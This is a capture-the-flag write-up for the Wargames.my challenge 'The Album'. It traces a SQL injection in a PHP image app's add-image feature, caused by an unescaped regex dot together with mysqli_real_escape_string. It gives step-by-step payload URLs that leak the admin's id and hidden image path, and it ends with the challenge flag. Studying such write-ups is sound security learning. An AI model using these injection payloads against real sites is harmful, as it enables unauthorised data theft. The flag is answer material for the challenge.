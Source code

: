 Challenge Description
```
WGMY Fortnight Challenge #1902

#1902 The Album

can you leak admin's secret album?.
http://fortnight1802.wargames.my:8001

And you may find this helpful:
https://drive.google.com/file/d/1ei2RloOrmsUmlzIFkzvgutctIMcwFocS/view?usp=sharing
```
# Analysing
Look at the source code, there are 4 main function:
- Register
- Login
- Add image
- Delete image

In Register and Login, the username parameter is pass to `mysqli_real_escape_string()` function and password parameter is pass to `hash()` function
```php
$username = mysqli_real_escape_string($con, $_POST['username']);
$password = hash('sha256', $_POST['password']);
```

So SQL Injection is not possible in Register and Login

In Delete image, the delete parameter is pass to `intval()` function (Convert to integer), so also not possible to perform SQL injection.
```php
$id = intval($_POST['delete']);
```

Now only left Add image, 
```php
$url = mysqli_real_escape_string($con, $_POST['url']);
$scheme = parse_url($url, PHP_URL_SCHEME);
$ext = pathinfo($url, PATHINFO_EXTENSION);
if (($scheme !== 'http' && $scheme !== 'https') ||
    ($ext !== 'png' && $ext !== 'jpg')) {
    echo 'Image format not supported<br>';
} else {
    $name = preg_replace('(.png|.jpg)', '', basename($url));
    $query = "INSERT INTO image (id, user_id, name, url) VALUES (NULL, {$_SESSION['id']}, '{$name}', '{$url}')";
...
...        
```

First it pass the url parameter to `mysqli_real_escape_string`, `parse_url` and `pathinfo`

`parse_url` is to extract the URL scheme like `http` and `https`

`pathinfo` is to extract the URL extension like `.php`, `.html` etc.

Both function seems not vulnerable, continue to next line:
```php
$name = preg_replace('(.png|.jpg)', '', basename($url));
```
It pass to `basename` and pass to `preg_replace` 

`basename` returns the path to a file or directory of the URL

`preg_replace` is to perform a regular expression for search and replace the content

So this expression `(.png|.jpg)` is regular expression

According to regex101.com:
```
1st Capturing Group (.png|.jpg)
1st Alternative .png
. matches any character (except for line terminators)
png matches the characters png literally (case sensitive)
2nd Alternative .jpg
. matches any character (except for line terminators)
jpg matches the characters jpg literally (case sensitive)
```

It replace not only .png and .jpg, **because `.` in regex means any character except new line** 

So means if we put `http://jjpg.jpg` as URL, the `name` variable will end up become empty because it replace with empty string.

# Proof of Concept
1. Put `http://'jpg.jpg` as the URL
2. `mysqli_real_escape_string` will add a backslash before single quote (`'` become `\'`)
- `http://'jpg.jpg` become `http://\'jpg.jpg`
3. `basename` will extract the file path : `\'jpg.jpg`
4. `preg_replace` will delete the extension 
- `'jpg.jpg` will be deleted so left `\`
5. `\` will be put inside the query as `$name`:
```php
"INSERT INTO image (id, user_id, name, url) VALUES (NULL, {$_SESSION['id']}, '{$name}', '{$url}')"
```
6. **`'{$name}'` become `'\'` (quote is not enclose because `\'` is treated as a string)**

Submit the URL `http://\'jpg.jpg` you will get `Failed to add image` response:
![image1.png](image1.png)

Meaning the **SQL query is failed** in other words, **the query is injectable**

# Exploit
In order to read contents in the database we need to enclose the single quote

Because `mysqli_real_escape_string` add a backslash before single quote, we are possible to do that:

`http://'jpg',(SELECT 1))#.jpg` $name become `\\',(SELECT 1))#`

When inside query:
```php
"INSERT INTO image (id, user_id, name, url) VALUES (NULL, {$_SESSION['id']}, '\\',(SELECT 1))#', '{$url}')"
```

Then we can read the url content by inspecting the web page:
![image2](image2.png)

First, find the admin's user_id:
```
http://'jpg',(SELECT id FROM user WHERE username = CHAR(97,100,109,105,110)))#.jpg
``` 
Result: `34`

Since quote is escaped so I using `CHAR(97,100,109,105,110)` for `'admin'`

But I encounted a problem when select from image:
```
http://'jpg',(SELECT url FROM image WHERE user_id = 34 LIMIT 1))#.jpg
```
It return `Failed to insert image`

After some research I found that inside INSERT statement, SELECT statement inside cannot have the same table name

According to the [docs](https://dev.mysql.com/doc/refman/8.0/en/insert-select.html):
![image3](image3.png)

In order to fix that just use SQL Alias that will change the table to different name

# Solution
The final query that can leak admin's album:
```
http://'jpg',(SELECT GROUP_CONCAT(i.url) FROM image AS i WHERE user_id = 34))#.jpg
```
`GROUP_CONCAT` is a function will select multiple rows into one line, and each row will separated with `,`

Result:
```diff
https://i.kym-cdn.com/photos/images/original/000/435/652/1f9.png,
https://i.kym-cdn.com/photos/images/newsfeed/000/471/542/069.jpg,
https://i.kym-cdn.com/photos/images/newsfeed/000/549/306/165.gif,
+ /secret_9hStNLrSEtnBGwk0ZYTeVb8j7YMv58/flag.png,
https://i.ky
```
Saw a few nonsense image, only one is the flag image:
```
/secret_9hStNLrSEtnBGwk0ZYTeVb8j7YMv58/flag.png
```

Go to http://fortnight1802.wargames.my:8001/secret_9hStNLrSEtnBGwk0ZYTeVb8j7YMv58/flag.png and there's a flag!

![flag](flag.png)

# Flag
> wgmy{7959a60d89e1d4fba8caa69f5214525e}